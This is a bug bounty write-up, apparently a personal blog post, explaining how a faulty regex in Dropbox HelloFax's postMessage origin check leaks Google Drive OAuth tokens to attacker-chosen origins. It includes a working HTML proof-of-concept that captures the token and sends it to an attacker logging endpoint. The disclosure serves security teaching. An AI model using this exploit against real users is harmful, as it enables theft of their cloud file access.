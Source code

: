 ```yaml
---
layout: post
title: [Dropbox bug bounty] Watch your regular expressions: Exploiting PostMessage bugs to leak GDrive tokens !
---
```


## TL;DR
In this blog post we will be discussing how minor validation issues in your regular expression patterns could lead to major security issues, the Dropbox's origin validation in the PostMessage function was misconfigured leading to GDrive tokens leak to third party origins !

## Introduction:
Dropbox's HelloFax offers documents management services to its users, particularly faxes:

![manage-documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/efba38f8-e7de-4ce6-a9a1-1832e34539c5)


Upon clicking on Send Fax to select your documents to be faxed, the following page will be shown:

![Fax-Documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/dce12a57-af39-4eb2-9f9a-b369ebcee2bd)


Documents could be uploaded either from our device or by integrating a third party service such as **Google Drive**, Upon clicking on the google drive icon, an OAuth window will pop up:

![google-drive-oauth](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/21804b65-d6d2-40cd-94f1-53a56618bdde)

- **NOTE:** whenever you see a window popup especially in OAuth integrations keep in mind that there is a possibility of using PostMessage functions, thus bringing other security issues to the table ! it isn't the case every time but keep it in mind when testing such applications !

After granting access in behalf of the user, Google will authorize the OAuth request and send the **authorization code** using the following GET request:

```
GET /home/googleNewFile?state=<state>&code=<authorization_code>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none HTTP/1.1
Host: app.hellofax.com
Cookie: <COOKIES>
```

The application hosted on `app.hellofax.com` will take the `authorization code` and exchanges it with access token, in our case it's a **Gdrive Access Token** in order to access user's **Google Drive** documents and files with the permissions predefined in the `scope` parameter, the whole process is explained in the following chart:

![authorization-code](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/9023ebaa-48ed-4c90-81f5-56e94195bda2)

After exchanging the **code** with a **GDrive access token**; The following response will be sent:

```
<script type="text/javascript" nonce="Bg2IcOtuFadT8UofntcBuA6M">
    let gdriveAccessToken = "<gdrive_access_token>";
    let gdriveReadonlyOAuthSucceed = "true";

    var resultObj = {
        gdriveAccessToken: gdriveAccessToken,
        gdriveReadonlyOAuthSucceed: gdriveReadonlyOAuthSucceed,
        type: "gdrive:readonlyOAuthSucceed", // needed to pass a message to the parent window
    };

    if (window.opener) {
        /**
         * Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)
         */
        let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];

        window.opener.postMessage(resultObj, targetOrigin);
    }
</script>
```

The **GDrive access token** is assigned to a varibale with the name `gdriveAccessToken` which is also included within an object with the name `resultObj`, the application checks if there is an opener window, the comment `//Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)` shows that the validation on the origin will assure that the **GDrive access token** will be sent only to permitted origins (hellosign trusted domains) and **NOT** to third party origins (untrusted), to apply the validation functionality; the application used to match the opener window's origin with the following regular expression pattern:

```
 let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];
```

It checks that the opener window's origin matches the following pattern:

```
/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/
```

Can you catch the error above ? Could you found it ? Great !

The developer tried to match the second-level domain with the domain names [hellosign-dev-qa-staging-] but he employed the wrong operator ! the character class `[]` will accept every character included there: `h, e, l, o, s, i, g, n, |, d, e, v, -, etc..` which offers to the attacker a flexibility in selecting the origin that will get the **Gdrive access token**, the pattern would accept `https://app.dev, https://app.hellosign, https://app.qa, https://app.staging` as trusted origins.

Therefore a PostMessage function will be invoked to send the `resultObj` that contains the **Gdrive token** to the opener window's origin validated by an insecure regular expression pattern, it could be  `app.dev` for example !

```
window.opener.postMessage(resultObj, targetOrigin);
```

## Time to Exploit: Bringing your brightest photos in Google Drive to the table !

To exploit this issue, the attacker must get a valid **authorization code** and a domain name with the origin https://app.dev for example that hosts the following exploit code:

```
<!DOCTYPE html>
<html>
<head>
    <title>PostMessage PoC</title>
</head>
<body>

    <script>

        window.open("https://app.hellofax.com/home/googleNewFile?state=<VALID_STATE>&code=<VALID_AUTHORIZATION_CODE>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none");

        window.addEventListener('message', (event) => {

            window.location.href = '/logger.php?gdrive_access_token=' + event.data.gdriveAccessToken; 

        })


    </script>

</body>
</html>
```

- **Impact:** Getting the **Gdrive access token** will give the attacker a scoped access to your Google Drive files including your holiday photos, your documents, and of course some information per the `email+userinfo.profile information` scope !

### Key Points:
- **For bug hunters/security professionals:** OAuth testing is one of my favorite parts in web security, whenever your find your screen filled with window popups that's a good indicator that you might face a PostMessage configuration, tokens/secrets/codes transmitted between windows need a secure way to travel, developers think that PostMessage is the right plane ! Stay tuned !
- **For developers:** I love regular expressions, a real art that everyone should respect, but I still support the classic method, an array with permitted origins and a strict string comparison will be enough to deliver the needed functionality.
- **For Internet users:** Google does a great job to secure your files/documents, but attackers have their weapons too ! that small click on your screen will be enough to pave attackers's way to your infos, make sure that you give your click to the right application !

Thanks for reading, if you have any question regarding this blog post please feel free to ping me on twitter `@mdakh404_`.
